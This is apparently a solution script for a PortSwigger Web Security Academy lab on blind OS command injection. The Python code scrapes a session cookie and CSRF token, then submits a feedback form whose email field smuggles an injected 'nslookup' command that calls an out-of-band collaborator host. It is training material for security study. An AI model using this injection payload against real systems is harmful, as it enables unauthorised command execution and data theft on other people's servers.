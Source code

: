 # Lab: Blind OS command injection with out-of-band interaction

link to lab: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

## Solution
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup
from datetime import datetime


res = requests.get(
    'https://0ac5000303c94328c3f8c98b00800017.web-security-academy.net/feedback',
    verify=False,
)
soup = BeautifulSoup(res.text, 'html.parser')
session = res.cookies.get('session')
csrf_token = soup.find('input', {'name': 'csrf'})['value']
print("session: ", session)
print("csrf: ", csrf_token)


cookies = {
    'session': session,
}

data = {
    'csrf': csrf_token,
    'name': 'a',
    'email': 'a@a.a; nslookup dj0o0abu85c8n2t1c8i4katb026tuji8.oastify.com ;',
    'subject': 'a',
    'message': 'a',
}

response = requests.post(
    'https://0ac5000303c94328c3f8c98b00800017.web-security-academy.net/feedback/submit',
    cookies=cookies,
    data=data,
    verify=False,
)
```